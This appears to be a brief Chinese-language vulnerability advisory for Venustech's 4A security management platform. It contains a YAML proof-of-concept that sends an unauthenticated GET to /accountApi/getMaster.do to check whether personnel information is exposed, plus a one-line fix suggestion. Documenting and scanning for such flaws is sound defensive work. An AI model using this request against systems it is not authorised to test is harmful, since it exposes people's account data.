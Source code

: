 漏洞描述：

启明星辰集团4A统一安全管控平台实现IT资源集中管理,为企业提供集中的账号、认证、授权、审计管理技术支撑及配套流程,提升系统安全性和可管理能力。可获取相关人员敏感信息。

```
poc:
  relative: req0
  session: false
  requests:
  - method: GET
    timeout: 10
    path: /accountApi/getMaster.do
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/65.0.881.36 Safari/537.36
    follow_redirects: true
    matches: (code.eq("200") && body.contains("\"state\":true"))
```



修复建议：

限制文件访问